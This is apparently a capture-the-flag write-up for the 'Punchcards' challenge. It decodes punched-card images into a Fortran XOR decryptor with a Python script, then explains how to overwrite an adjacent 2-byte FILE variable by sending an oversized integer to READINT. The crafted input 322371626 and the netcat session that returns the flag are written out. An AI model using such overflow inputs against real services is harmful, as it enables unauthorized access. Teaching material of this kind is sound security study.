

# Punchcards

Category: Misc.

## Description

> I found these dusty stack of cards in the archives of a forgotten computing museum with a post-it note that read "flawed". That's the thing with punchcards. If you make a mistake you can't just erase it. Well... unless you use some tape

An archive with 54 Fortran punched-cards was attached, for example:



## Solution

In this cool challenge we need to decode a set of Fortran [Punched card](https://en.wikipedia.org/wiki/Punched_card).

We can translate the punched-cards to ASCII based on a technical explanation such as [this one](https://homepage.divms.uiowa.edu/~jones/cards/codes.html).  
We'll use the following script, which utilizes `PIL` to detect whether a certain location on the grid is punched by 
checking its transparency level. The translation to ASCII is based on a mapping from the technical overview.

```python
from PIL import Image
import glob

ROWS = 12
COLUMNS = 74

PUNCH_CARD = """\
    /&-0123456789ABCDEFGHIJKLMNOPQR/STUVWXYZ:#@'="`.<(+|!$*);^~,%_>? |
12 / O           OOOOOOOOO                        OOOOOO             |
11|   O                   OOOOOOOOO                     OOOOOO       |
 0|    O                           OOOOOOOOO                  OOOOOO |
 1|     O        O        O        O                                 |
 2|      O        O        O        O       O     O     O     O      |
 3|       O        O        O        O       O     O     O     O     |
 4|        O        O        O        O       O     O     O     O    |
 5|         O        O        O        O       O     O     O     O   |
 6|          O        O        O        O       O     O     O     O  |
 7|           O        O        O        O       O     O     O     O |
 8|            O        O        O        O OOOOOOOOOOOOOOOOOOOOOOOO |
 9|             O        O        O        O                         |
  |__________________________________________________________________| \
""".split("\n")

def getAscii(indices):
    for col in range(len(PUNCH_CARD[0])):
        try:
            num_match = 0
            for row in range(1, len(PUNCH_CARD)):
                char = PUNCH_CARD[row][col]
                row_in_indices = row in indices
                if (char == 'O' and not row_in_indices) or (char != 'O' and row_in_indices):
                    raise ValueError()
                num_match += 1
            
            if num_match == len(PUNCH_CARD) - 1:
                return PUNCH_CARD[0][col]
        except ValueError:
            pass
        
def build_grid(image_path):
    img = Image.open(image_path).convert('RGBA')
    
    start_x, start_y = 104, 37
    slot_width = 11.8
    slot_height = 34

    transparency_grid = {}

    for row in range(ROWS):
        for col in range(COLUMNS):
            x = start_x + col * slot_width
            y = start_y + row * slot_height
            
            pixel = img.getpixel((x, y))
            
            is_transparent = pixel[3] == 0
            transparency_grid[(row, col)] = is_transparent
    
    return transparency_grid

def decode_image(image_path):
    grid = build_grid(image_path)

    for col in range(COLUMNS):
        indices = []
        for row in range(ROWS):
            if grid[(row, col)]:
                indices.append(row + 1)
        print(getAscii(indices), end="")
    print("")

for path in glob.glob('./cardstack/*png'):
    decode_image(path)

```

Running the script, we get:

```console
┌──(user@kali3)-[/media/sf_CTFs/google/Punchcards]
└─$ python3 solve2.py
PROGRAM DECRYPTOR                                                 BQ24-001
IMPLICIT NONE                                                     BQ24-002
INTEGER(2)::FILE = 0, INPLEN = 0                                  BQ24-003
INTEGER::KEYLEN, MSGLEN = 42                                      BQ24-004
INTEGER(1)::MSG(42) = (/44,106,9,82,124,3,69,55,28,&              BQ24-005
&76,110,86,65,11,113,50,63,&                                      BQ24-006
&30,66,7,60,12,112,101,101,&                                      BQ24-007
&91,63,13,69,80,21,13,59,109,&                                    BQ24-008
&14,88,94,26,30,34,30,64/)                                        BQ24-009
CHARACTER(LEN=48)::KEY = CHAR(0)                                  BQ24-010
CHARACTER(LEN=48)::INP = CHAR(0)                                  BQ24-011
CHARACTER(LEN=42)::OUT = CHAR(0)                                  BQ24-012
WRITE(*, '(A)', ADVANCE='NO') 'ENTER KEY LENGTH:'                 BQ24-013
CALL READINT(INPLEN)                                              BQ24-014
IF (INPLEN > 48) THEN                                             BQ24-015
WRITE(*,*) 'SORRY, MAX KEY LENGTH IS 48.'                         BQ24-016
RETURN                                                            BQ24-017
END IF                                                            BQ24-018
IF (FILE == 4919) THEN                                            BQ24-019
CALL READKEY(KEY, KEYLEN)                                         BQ24-020
ELSE                                                              BQ24-021
WRITE(*, '(A)', ADVANCE='NO') 'ENTER KEY (MAX 48 CHARS):'         BQ24-022
READ(*,'(A48)') INP                                               BQ24-023
KEY(1:INPLEN)=INP(1:INPLEN)                                       BQ24-024
KEYLEN=INPLEN                                                     BQ24-025
END IF                                                            BQ24-026
CALL DECRYPT(MSG, MSGLEN, KEY, KEYLEN, OUT)                       BQ24-027
WRITE(*, '(A)') OUT                                               BQ24-028
END PROGRAM                                                       BQ24-029
SUBROUTINE READINT(I)                                             BQ24-030
READ(*,*) I                                                       BQ24-031
END SUBROUTINE                                                    BQ24-032
SUBROUTINE READKEY(KEY, KEYLEN)                                   BQ24-033
INTEGER::F                                                        BQ24-034
CHARACTER(*)::KEY                                                 BQ24-035
INTEGER::KEYLEN                                                   BQ24-036
OPEN(NEWUNIT=F, FILE="KEY.TXT", STATUS="OLD", ACTION="READ")      BQ24-037
READ(F, '(A)') KEY                                                BQ24-038
KEYLEN = LEN_TRIM(KEY)                                            BQ24-039
CLOSE(F)                                                          BQ24-040
END SUBROUTINE                                                    BQ24-041
SUBROUTINE DECRYPT(MSG, MSGLEN, KEY, KEYLEN, OUT)                 BQ24-042
INTEGER(1) :: MSG(MSGLEN)                                         BQ24-043
CHARACTER(*) :: KEY                                               BQ24-044
CHARACTER(*) :: OUT                                               BQ24-045
INTEGER :: I = 1, J = 1                                           BQ24-046
INTEGER(1) :: MC, KC                                              BQ24-047
DO I=1, MSGLEN                                                    BQ24-048
MC = MSG(I)                                                       BQ24-049
KC = IACHAR(KEY(J:J))                                             BQ24-050
OUT(I:I) = CHAR(XOR(MC, KC))                                      BQ24-051
J = MOD(J, KEYLEN) + 1                                            BQ24-052
END DO                                                            BQ24-053
END SUBROUTINE                                                    BQ24-054
```

Let's clean it up a bit, to get readable FORTRAN code:

```fortran
PROGRAM DECRYPTOR                                           
    IMPLICIT NONE                                               
    INTEGER(2)::FILE = 0, INPLEN = 0                            
    INTEGER::KEYLEN, MSGLEN = 42                                
    INTEGER(1)::MSG(42) = (/44,106,9,82,124,3,69,55,28,&        
                            &76,110,86,65,11,113,50,63,&                                
                            &30,66,7,60,12,112,101,101,&                                
                            &91,63,13,69,80,21,13,59,109,&                              
                            &14,88,94,26,30,34,30,64/)                                  

    CHARACTER(LEN=48)::KEY = CHAR(0)                            
    CHARACTER(LEN=48)::INP = CHAR(0)                            
    CHARACTER(LEN=42)::OUT = CHAR(0)                            

    WRITE(*, '(A)', ADVANCE='NO') 'ENTER KEY LENGTH:'           
    CALL READINT(INPLEN)                                        

    IF (INPLEN > 48) THEN                                       
        WRITE(*,*) 'SORRY, MAX KEY LENGTH IS 48.'                   
        RETURN                                                      
    END IF                                                      

    IF (FILE == 4919) THEN                                      
        CALL READKEY(KEY, KEYLEN)                                   
    ELSE                                                        
        WRITE(*, '(A)', ADVANCE='NO') 'ENTER KEY (MAX 48 CHARS):'   
        READ(*,'(A48)') INP                                         
        KEY(1:INPLEN)=INP(1:INPLEN)                                 
        KEYLEN=INPLEN                                               
    END IF                                                      

    CALL DECRYPT(MSG, MSGLEN, KEY, KEYLEN, OUT)                 
    WRITE(*, '(A)') OUT                                         
END PROGRAM                                                 

SUBROUTINE READINT(I)                                       
    READ(*,*) I                                                 
END SUBROUTINE                                              

SUBROUTINE READKEY(KEY, KEYLEN)                             
    INTEGER::F                                                  
    CHARACTER(*)::KEY                                           
    INTEGER::KEYLEN                                             
    OPEN(NEWUNIT=F, FILE="KEY.TXT", STATUS="OLD", ACTION="READ")
    READ(F, '(A)') KEY                                          
    KEYLEN = LEN_TRIM(KEY)                                      
    CLOSE(F)                                                    
END SUBROUTINE                                              

SUBROUTINE DECRYPT(MSG, MSGLEN, KEY, KEYLEN, OUT)           
    INTEGER(1) :: MSG(MSGLEN)                                   
    CHARACTER(*) :: KEY                                         
    CHARACTER(*) :: OUT                                         
    INTEGER :: I = 1, J = 1                                     
    INTEGER(1) :: MC, KC                                        
    DO I=1, MSGLEN                                              
        MC = MSG(I)                                                 
        KC = IACHAR(KEY(J:J))                                       
        OUT(I:I) = CHAR(XOR(MC, KC))                                
        J = MOD(J, KEYLEN) + 1                                      
    END DO                                                      
END SUBROUTINE                                              
```

Now, this is apparently the program that is running in the background when we connect to the
remote server:

```console
┌──(user@kali3)-[/media/sf_CTFs/google/Punchcards]
└─$ nc punch.2024-bq.ctfcompetition.com 1337
== proof-of-work: disabled ==
ENTER KEY LENGTH:10
ENTER KEY (MAX 48 CHARS):1234567890
>CQP5|`$Y;ni"'/r
```

We need the key to read the flag, but the problem is that the real key is only read
when `FILE == 4919`, otherwise we need to input our own key and obviously we don't know what
the correct one is. After trying to attack this from a crypto viewpoint for a while, I wasn't
able to find any vulnerability. Searching for other directions, I did find 
[this writeup](https://ctftime.org/writeup/28564) though. It details a buffer overflow(!) 
exploit for Fortran!

Just like in the writeup above, we too have a `readint` function which reads 4 bytes:

```fortran
SUBROUTINE READINT(I)
    READ(*,*) I
END SUBROUTINE
```

And luckily, the value is read into `INPLEN`, which is 2 bytes long, and resides right next
to `FILE`, which is 2 bytes long as well. So, we can craft an input to override `FILE`!

```fortran
    INTEGER(2)::FILE = 0, INPLEN = 0                               
...
    CALL READINT(INPLEN)                                        
```

We'll just pack the required value for both variables in one DWORD:

```python
>>> hex(4919)
'0x1337'
>>> hex(42)
'0x2a'
>>> 0x1337002a
322371626
```

Let's try it:

```console
┌──(user@kali3)-[/media/sf_CTFs/google/Punchcards]
└─$ nc punch.2024-bq.ctfcompetition.com 1337
== proof-of-work: disabled ==
ENTER KEY LENGTH:322371626
CTF{7h4nk5_j0s3Ph_m4r13_JacQu4Rd_4fc677b1}
```

Pretty cool!